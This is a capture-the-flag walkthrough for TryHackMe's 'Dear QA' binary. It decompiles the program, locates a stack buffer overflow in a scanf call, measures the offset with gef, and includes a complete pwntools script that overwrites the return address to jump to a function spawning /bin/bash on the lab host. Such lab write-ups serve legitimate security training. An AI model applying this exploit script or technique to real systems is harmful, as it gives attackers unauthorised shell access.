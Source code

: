 ```yaml
---

title: Walkthrough - Dear QA
published: true
---
```


Tags: PWN, Reversing, Overflow, ASM.
Description: Are you able to solve this challenge involving reverse engineering and exploit development?
Difficulty: Easy
URL: [https://tryhackme.com/room/dearqa](https://tryhackme.com/room/dearqa)

* * *

## Notes

- `file DearQA.DearQA`
- analyze the file in ghidra

There are a few different functions:

```c
void vuln(void)

{
  puts("Congratulations!");
  puts("You have entered in the secret function!");
  fflush(stdout);
  execve("/bin/bash",(char **)0x0,(char **)0x0);
  return;
}
```

```c
undefined8 main(void)

{
  undefined local_28 [32];
  
  puts("Welcome dearQA");
  puts("I am sysadmin, i am new in developing");
  printf("What\'s your name: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_00400851,local_28);
  printf("Hello: %s\n",local_28);
  return 0;
}
```

```c
void __libc_csu_init(EVP_PKEY_CTX *param_1,undefined8 param_2,undefined8 param_3)

{
  long lVar1;
  
  lVar1 = 0;
  _init(param_1);
  do {
    (*(code *)(&__frame_dummy_init_array_entry)[lVar1])((ulong)param_1 & 0xffffffff,param_2,param_3)
    ;
    lVar1 = lVar1 + 1;
  } while (lVar1 != 1);
  return;
}
```

So this should be vulnerable to buffer ovrflow however I only have experience doing buffer overflows with windows executables. Buffer overflows occer when we send a program enough data so we can overflow it and overwrite other data or alter it. We might be able to use this vulnerability to jump to the vuln function which executes the /bin/bash and gain access to the server. 

For windows I would use Immunity debugger to find if the files has protections but in linux we can use `gdb` and `gef` to find the protections

![](/assets/dear-qa01.png)

This shows us that the file has all of the security protections turned off. So now what we need to do is find the offset where we can overflow the binary.

`pattern create 50` creates a pattern of 50 chars that we can use to send to the program. We can then check the memory and see if its overwritten with our pattern.

We then use `r` in gef to run the program and it should crash. so lets examine the memory address. 

![](/assets/dear-qa02.png)

We can use `x/xg $rsp` to call the memory address then after getting the address use `pattern offset 0x6161616161616166` We can now test to show control of the RSP, by running the binary again and replacing the RSP with all B's.

- create our pattern `python3 -c "print('A' * 40 + 'B' * 8)"` and run the code again pasting in our new pattern.

![](/assets/dear-qa03.png)

So since we confirmed we have control of the RSP variable, if we were to put a valid address on the RSP we can cause the program to continue through execution of the program. So we can use this to jump to the vuln function. 

Becuase the program has ASLR disabled this mean the binary will use the exact memory addresses every time it starts.

The vuln function has the memory address `0x00400686`

So with all of this information we can now create our exploit.

```python
#!/usr/bin/env python3

# import all from pwn
from pwn import *

# target address
host = "10.10.216.48"
port = "5700"

# target executable information
context(terminal = ['tmux', 'new-window'])
binary = context.binary = ELF("./DearQA.DearQA")
context(os = "linux", arch = "amd64")

# connect to target
connect = remote(host, port)
log.info("[+] Starting buffer Overflow")
connect.recvuntil(b"What's your name: ")
log.info("[+] Crafting payload")

# payload with target memory address
payload = b'A' * 40
payload += p64(0x00400686)

# send payload and keep socket open
log.info("[+] Sending payload to remote server")
connect.sendline(payload)
connect.interactive()
```

Executing the script gives us a reverse shell. However its not sending us back any information when we send characters. We can try to send through another reverse shell.

Not easy!

* * * 

## flag

![](/assets/dear-qa04.png)

* * * 

